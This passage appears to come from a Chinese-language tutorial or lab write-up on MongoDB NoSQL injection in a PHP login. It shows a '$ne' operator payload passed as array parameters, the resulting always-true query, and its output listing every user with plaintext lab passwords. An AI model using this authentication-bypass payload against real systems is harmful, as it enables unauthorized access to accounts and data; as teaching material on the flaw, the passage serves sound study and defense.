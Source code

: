 如下图所示，成功查出所有的用户信息，说明成功注入了一个永真查询条件：

![image-20230513183046344](picture/image-20230513183046344.png)

提交的数据进入 PHP 后的数据如下：

```php
array(
    'username' => array('$ne' => 1),
    'password' => array('$ne' => 1)
)
    // 会得到一个名字叫做 username 的数组，其中包含了一个类型为数组的元素。
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':{$ne:1}, 'password':{$ne:1}})

{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }

{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }

{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }

{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
```
